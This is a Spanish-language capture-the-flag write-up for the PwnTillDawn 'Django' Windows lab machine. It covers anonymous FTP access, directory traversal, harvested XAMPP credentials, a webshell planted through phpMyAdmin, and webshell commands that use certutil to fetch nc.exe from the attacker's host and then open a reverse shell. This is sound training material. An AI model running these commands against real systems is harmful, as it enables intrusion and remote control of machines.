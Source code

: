# WRITEUP Django

### ESCANEO
#### 10.150.150.212	Windows	Easy
```
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
8089/tcp  open  unknown
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
```

Iniciando un escaneo a la maquina, podemos observar varios puertos interesantes. El puerto 21,80,445 y el 3306.
Siempre que veamos el servicio ftp abierto, debemos intentar loguearnos como "anonymous" ya que algunas veces está activado el usuario y podría contener cosas valiosas.

### ENUMERACIÓN

Empezando por el puerto más chico, intenté loguearme como anonymous al servicio ftp y logré obtener los siguientes archivos.

![iamgen1](img/imagen_2021-03-09_230959.png)

al abrirlos nos topamos con la siguiente información 

![iamgen2](img/2.PNG)
![iamgen3](img/3.PNG)

como podemos observar, hay una ruta muy interesante "C:\xampp\passwords.txt". Entonces volví a ingresar al servicio ftp e intenté listar desde raíz y me listó todo.

### EXPLOTACIÓN 

Algo muy interesante que logré encontrar fue que si hago un listado del directorio recorriendo hacia atrás, sí me muestra todos los directorios... lo cual fue muy interesante ya que puedo acceder a las carpetas de otros usuarios. La primera y segunda FLAG, se encuentra en el mismo directorio de xampp

`-rw-rw-rw-   1 ftp      ftp           40 Mar 13  2019 FLAG20.txt`


```
C:\FTP\FLAG>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3829-EAA8

 Directory of C:\FTP\FLAG

03/13/2019  01:17 PM    <DIR>          .
03/13/2019  01:17 PM    <DIR>          ..
03/13/2019  01:22 PM                40 FLAG19.txt
               1 File(s)             40 bytes
               2 Dir(s)   3,864,674,304 bytes free
```

![iamgen3](img/4.PNG)

```
ftp> dir ../Users/
200 Port command successful.
150 Opening data connection for directory list.
dr--r--r--   1 ftp      ftp            0 Nov 13  2018 .
dr--r--r--   1 ftp      ftp            0 Nov 13  2018 ..
drw-rw-rw-   1 ftp      ftp            0 Oct 22  2019 chuck.norris
dr--r--r--   1 ftp      ftp            0 Jul 14  2009 Public
drw-rw-rw-   1 ftp      ftp            0 Nov 13  2018 rambo
```

si accedemos al directorio de "chuck.norris" podemos encontrar la tercera flag.

![iamgen3](img/5.PNG)

Ahora, si accedemos a la ruta que habíamos encontrado en los logs, podemos descargar ese archivo que contiene lo siguiente:

```
### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

User: root
Password:thebarrierbetween

2) FileZilla FTP:

[ You have to create a new user on the FileZilla Interface ]

3) Mercury (not in the USB & lite version):

Postmaster: Postmaster (postmaster@localhost)
Administrator: Admin (admin@localhost)

User: newuser
Password: wampp

4) WEBDAV:

User: xampp-dav-unsecure
Password: ppmax2011
Attention: WEBDAV is not active since XAMPP Version 1.7.4.
For activation please comment out the httpd-dav.conf and
following modules in the httpd.conf

LoadModule dav_module modules/mod_dav.so
LoadModule dav_fs_module modules/mod_dav_fs.so
Please do not forget to refresh the WEBDAV authentification (users and passwords).
```

Como podemos observar, hay varias credenciales que podemos utilizar. Arriba habíamos localizado el puerto 3306 que hace referencia a MYSQL, por lo tanto si accedo por el navegador directamente a ese puerto me debería lanzar el formulario de logueo.

![iamgen6](img/6.PNG)

una vez ingresando a phpmyadmin, podemos ver la ultima flag.

![iamgen6](img/7.PNG)

Ya que tenemos acceso directamente a la consola, podemos intentar subir una webshell mediante un query y mandarnos una reverse shell para obtener acceso.

![iamgen6](img/8.PNG)

Una vez que tenemos la webshell, procederemos a montar un servidor http y descargarle una reverse shell con la utilidad certutil.

![iamgen6](img/9.PNG)

`http://10.150.150.212/rs.php?cmd=certutil -urlcache -split -f "http://10.66.66.106/nc.exe" C:\\Windows\\system32\\spool\\drivers\\color\\nc.exe`

Ahora sólo resta ejecutar nc apuntando hacia nuestra dirección IP.

`http://10.150.150.212/rs.php?cmd=C:\\Windows\\system32\\spool\\drivers\\color\\nc.exe MiIP 443 -e cmd.exe`


y listo, tenemos una reverse shell.

![iamgen6](img/10.PNG)


Esta maquina nos demuestra que tan importante es desactivar el usuario anonymous ya que es muy peligroso si no tenemos bien configurado nuestro servidor FTP.
Las configuraciones por defecto siempre son peligrosas y pueden costarnos muy caro. 


Contacto: [Linkedin](https://www.linkedin.com/in/jair-rodriguezz/) [Twitter](https://twitter.com/_niggurath_)


Write-ups have been authorized for this machine by the PwnTillDawn Crew! We are just asking you to give us credit by adding a backlink to [wizlynxgroup](https://www.wizlynxgroup.com/) and [Pwntilldawn](https://online.pwntilldawn.com/) in your write-up.
